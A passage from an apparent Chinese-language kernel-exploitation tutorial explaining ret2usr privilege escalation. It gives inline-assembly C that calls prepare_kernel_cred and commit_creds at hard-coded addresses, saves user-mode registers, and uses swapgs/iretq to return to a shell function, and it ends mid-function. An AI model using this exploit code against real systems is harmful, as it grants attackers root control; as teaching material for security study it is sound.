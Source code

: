 汇编来使用这两个函数地址：

```c
void escalate_privs(void){
    __asm__(
        ".intel_syntax noprefix;"  //使用intel汇编风格
        "movabs rax, 0xffffffff814c67f0;" //prepare_kernel_cred
        "xor rdi, rdi;"
	    "call rax; mov rdi, rax;"
	    "movabs rax, 0xffffffff814c6410;" //commit_creds
	    "call rax;"							//到这里就已经提权了，接下来获取shell并且安全返回
        ... //return back
        ".att_syntax;"
    );
}
```

用户态进入内核时，会使用swapgs将gs换为内核态gs所以，咱们在iretq前还得用swapgs换回来(因为iretq用户态无法执行)



> **Returning to userland**：
> 进行上述的操作后，需要返回到用户空间打开一个shell。那么我们使用`sysretq`或`iretq`进返回(x86 64)，一般选用iretq，因为其返回条件比较简单只需栈上一下5个寄存器依次入栈即可：*RIP | CS | RFLAGS | SP | SS*
>
> 因为我们不知道进入内核时用户态的这几个寄存器值，那么我们就得先存起来，当然rip我们设置为getshell函数地址：
>
> ```c
> void save_state(){
>     __asm__(
>         ".intel_syntax noprefix;"
>         "mov user_cs, cs;" //可以直接使用c的全局变量
>         "mov user_ss, ss;"
>         "mov user_sp, rsp;"
>         "pushf;"
>         "pop user_rflags;"
>         ".att_syntax;"
>     );
>     puts("[*] Saved state");
> }
> ```

那么完整的提权函数为：

```c
unsigned long user_rip = (unsigned long)get_shell;

void escalate_privs(void){
    __asm__(
        ".intel_syntax noprefix;"
        "movabs rax, 0xffffffff814c67f0;" //prepare_kernel_cred
        "xor rdi, rdi;"
	    "call rax; mov rdi, rax;"
	    "movabs rax, 0xffffffff814c6410;" //commit_creds
	    "call rax;"
        "swapgs;"
        "mov r15, user_ss;"				//由save_state函数提前保存
        "push r15;"
        "mov r15, user_sp;"
        "push r15;"
        "mov r15, user_rflags;"
        "push r15;"
        "mov r15, user_cs;"
        "push r15;"
        "mov r15, user_rip;"
        "push r15;"
        "iretq;"
```